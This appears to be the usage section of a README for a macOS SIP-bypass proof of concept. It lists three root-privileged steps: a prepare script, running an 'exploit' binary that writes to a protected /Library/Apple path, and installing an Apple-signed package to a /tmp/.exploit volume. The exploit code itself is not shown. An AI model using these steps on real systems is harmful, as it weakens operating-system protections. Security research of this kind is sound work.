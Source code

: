# Usage
1. Run `prepare.sh` with root privilege
2. Compile and run `exploit` program, e.g. `sudo /path/to/exploit "touch /Library/Apple/sip-bypass"`
3. Install an Apple-signed PKG file to the volume `/tmp/.exploit`, e.g. `sudo installer -pkg /path/to/applesigned.pkg -target /tmp/.exploit`
